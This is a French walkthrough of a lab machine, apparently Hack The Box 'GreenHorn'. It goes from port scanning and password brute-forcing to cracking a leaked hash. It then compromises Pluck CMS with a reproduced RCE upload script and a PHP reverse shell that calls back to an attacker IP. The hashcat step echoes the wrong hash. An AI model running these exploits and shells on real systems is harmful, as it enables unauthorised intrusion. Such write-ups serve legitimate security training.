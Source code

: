 Tout d'abord on commence par un scan.
```bash
nmap -sV -v 10.10.11.25
```

On voit qu'ils y a 3 ports d'ouverts:
```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
3000/tcp open  ppp?
```

Si on accède le site web au port 80, on se rend compte qu'il s'agit du CMS Pluck:
```bash
 admin | powered by pluck 
```

Si on accède au port 3000, on se rend compte qu'il s'agit d'une instance de Gitea:
```bash
Powered by Gitea Version: 1.21.11
```

On scanne les répertoires pour pluck et gitea, mais rien de bien intéressant:
```bash
dirb http://greenhorn.htb/
dirb http://10.10.11.25:3000/
```

En accédant à la page de login de pluck, on se rend compte qu'il s'agit de la version 4.7.18:
```bash
http://greenhorn.htb/login.php
```
On voit aussi qu'il y a champ pour le mot de passe, pas de username.

En utilisant burp, on essaye un mot de passe bidon et on intercepte la requête:
```bash
POST /login.php HTTP/1.1
Host: greenhorn.htb
Content-Length: 31
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://greenhorn.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://greenhorn.htb/login.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=8pr8gvim4vq20s4mvbgaaknhet
Connection: close

cont1=test&bogus=&submit=Log+in
```
On voit que le champ pour le mot de passe se nomme `cont1` et il semble y avoir un champ bogus qui est envoyé aussi pour prévenir le bruteforce.

Une fois ces informations en mains, on essaye de cracker le login avec hydra et rockyou.txt:
```bash
hydra -v -V -d -l username -P /home/kali/rockyou.txt -t 16 -m "/login.php:cont1=^PASS^&bogus=&submit=Log+in:F=incorrect" http-post-form://greenhorn.htb 
```

Cependant, on se rend vite compte qu'il y a une protection contre le bruteforce
```bash
You have exceeded the number of login attempts. Please wait 5 minutes before logging in again.
```

Ayant épuisé les pistes pour pluck pour le moment, on tourne notre attention vers gitea.
En fouillant un peu, on trouve un répertoire qui semble héberger le code source pour pluck:
```bash
http://10.10.11.25:3000/GreenAdmin/GreenHorn
```

En poussant la recherche plus loin, on trouve 2 fichiers intéressants, token.php et pass.php:
```php
http://10.10.11.25:3000/GreenAdmin/GreenHorn/src/branch/main/data/settings/token.php
<?php $token = '65c1e5cf86b4d727962672211b91924b828a0c05ece3954c75e3befa6b361fa3eb28c407f7101bc4eae2c604c96c641575c7fe82dbdc6ce0cf7d4a006f53bac7'; ?>
```
```php
http://10.10.11.25:3000/GreenAdmin/GreenHorn/src/branch/main/data/settings/pass.php
<?php
$ww = 'd5443aef1b64544f3685bf112f6c405218c573c7279a831b1fe9612e3a4d770486743c5580556c0d838b51749de15530f87fb793afdcc689b6b39024d7790163';
?>
```

On réalise vite que pass.php contient un hash sha-512.
On tente donc de le décoder avec hashcat et rockyou.txt
```bash
echo "65c1e5cf86b4d727962672211b91924b828a0c05ece3954c75e3befa6b361fa3eb28c407f7101bc4eae2c604c96c641575c7fe82dbdc6ce0cf7d4a006f53bac7" > hash.txt
hashcat -m 1700 -a 0 hash.txt /home/kali/rockyou.txt
```

Une fois décodé, on obtient le mot de passe `iloveyou1`:
```bash
Dictionary cache hit:
* Filename..: /home/kali/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

d5443aef1b64544f3685bf112f6c405218c573c7279a831b1fe9612e3a4d770486743c5580556c0d838b51749de15530f87fb793afdcc689b6b39024d7790163:iloveyou1
```

Avec ce mot de passe, on est capable d'accéder à l'admin panel de pluck
```bash
http://greenhorn.htb/admin.php?action=start
```

L'accès à l'admin panel est confirmé. 
En fouillant un peu sur `exploit-db.com` on trouve le RCE suivant:
[upload-reverse-shell.py](https://www.exploit-db.com/exploits/51592)
```python
#Exploit Title: Pluck v4.7.18 - Remote Code Execution (RCE)
#Application: pluck
#Version: 4.7.18
#Bugs:  RCE
#Technology: PHP
#Vendor URL: https://github.com/pluck-cms/pluck
#Software Link: https://github.com/pluck-cms/pluck
#Date of found: 10-07-2023
#Author: Mirabbas Ağalarov
#Tested on: Linux 


import requests
from requests_toolbelt.multipart.encoder import MultipartEncoder

login_url = "http://greenhorn.htb/login.php"
upload_url = "http://greenhorn.htb/admin.php?action=installmodule"
headers = {"Referer": login_url,}
login_payload = {"cont1": "iloveyou1","bogus": "","submit": "Log in"}

file_path = "/home/kali/reverse-shell.zip"

multipart_data = MultipartEncoder(
    fields={
        "sendfile": ("reverse-shell.zip", open(file_path, "rb"), "application/zip"),
        "submit": "Upload"
    }
)

session = requests.Session()
login_response = session.post(login_url, headers=headers, data=login_payload)


if login_response.status_code == 200:
    print("Login account")

 
    upload_headers = {
        "Referer": upload_url,
        "Content-Type": multipart_data.content_type
    }
    upload_response = session.post(upload_url, headers=upload_headers, data=multipart_data)

    
    if upload_response.status_code == 200:
        print("ZIP file download.")
    else:
        print("ZIP file download error. Response code:", upload_response.status_code)
else:
    print("Login problem. response code:", login_response.status_code)


rce_url="http://localhost/pluck/data/modules/reverse-shell/reverse-shell.php"

rce=requests.get(rce_url)

print(rce.text)
```

Il ne reste plus qu'à créer le `reverse-shell.zip` avec le `reverse-shell.php` à l'intérieur pour être exécuté par le RCE:
```php
<?php
$ip = '10.10.14.174'; // change this to your IP address
$port = 4444; // change this to your listening port
$socket = fsockopen($ip, $port);
if ($socket) {
    $shell = 'uname -a; w; id; /bin/sh -i';
    fwrite($socket, $shell);
    while (!feof($socket)) {
        $command = fgets($socket);
        $output = '';
        if ($command) {
            $output = shell_exec($command);
            fwrite($socket, $output);
        }
    }
    fclose($socket);
}
?>
```

Puis, on lance netcat pour écouter les connexions entrantes:
```bash
nc -lvnp 4444
```

On exécute finalement le script `upload-reverse-shell.py`:
```bash
python upload-reverse-shell.py
```

On voit qu'une connexion est établie à netcat:
```bash
listening on [any] 4444 ...
connect to [10.10.14.174] from (UNKNOWN) [10.10.11.25] 51092
uname -a; w; id; /bin/sh -i
```

Une fois dans le serveur, on fait un peu de recon:
```bash
whoami 
www-data
pwd
/var/www/html/pluck
```
